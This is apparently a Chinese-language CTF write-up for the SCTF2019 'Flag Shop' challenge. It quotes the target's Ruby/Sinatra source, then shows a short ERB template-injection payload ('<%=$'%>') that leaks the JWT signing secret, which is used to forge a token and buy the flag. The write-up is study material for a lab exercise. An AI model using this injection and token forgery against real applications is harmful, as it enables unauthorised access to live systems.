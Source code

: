 ```yaml
---
title: '[SCTF2019]Flag Shop'
date: 2024-08-03 17:17:00
tags: jwt
categories: 刷题笔记
---
```


### [SCTF2019]Flag Shop(jwt,Ruby)

我们通过页面可以发现，需要我们获得**1000000000000000000000000000**才能得到flag，我们考虑抓包

![image-20240803182745459](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408031827641.png)

获得了一串jwt

<!--more-->

我们进行解析

![image-20240803182829296](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408031828457.png)

我们可以伪造jwt来获得钱，但我们不知道密钥是什么，我们再找找有没有其他的信息

我们查看robots.txt,获得了源码

```
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end

get "/api/auth" do
  payload = { uid: SecureRandom.uuid , jkl: 20}
  auth = JWT.encode payload,ENV["SECRET"] , 'HS256'
  cookies[:auth] = auth
end

get "/api/info" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  json({uid: auth[0]["uid"],jkl: auth[0]["jkl"]})
end

get "/shop" do
  erb :shop
end

get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end

post "/shop" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }

  if auth[0]["jkl"] < FLAGPRICE then

    json({title: "error",message: "no enough jkl"})
  else

    auth << {flag: ENV["FLAG"]}
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    json({title: "success",message: "jkl is good thing"})
  end
end


def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end
```

通过代码审计，我们可以知道这段代码是用Ruby编写的一个基本的Web应用程序，使用了Sinatra框架

由此我们可以想到ruby模块注入

注入点在/work

```
  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end

```

我们只要满足了这个`if params[:do] == "#{params[:name][0,7]} is working" then`，就会进行模板渲染

[【技术分享】手把手教你如何完成Ruby ERB模板注入](https://www.anquanke.com/post/id/86867)

但是这题有长度的限制，除去`<%=%>`，就只剩下2个字符可用了。可以用ruby的Ruby的预定义变量

[预定义变量](https://docs.ruby-lang.org/en/2.4.0/globals_rdoc.html)

我们利用$',最后一次成功匹配右边的字符串

```
<%=$'%>
```

payload

```
/work?SECRET=&name=<%=$'%>&do=<%=$'%> is working
```

为什么需要SECRET参数，是为了可以搜索SECRET参数内容，然后是<%=$'%>返回最后一次匹配的字符串是我们的密钥

但我们不能直接传入，需要进行一次url编码

```
?SECRET=&name=%3C%25%3D%24%27%25%3E&do=%3C%25%3D%24%27%25%3E%20is%20working
```

![image-20240803184633971](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408031846027.png)

得到密钥

我们构造jwt

![image-20240803184848101](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408031848154.png)

进行抓包上传

我们购买flag，进行抓包，将得到的jwt进行解密，就能得到flag了

![image-20240803185020909](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408031850965.png)
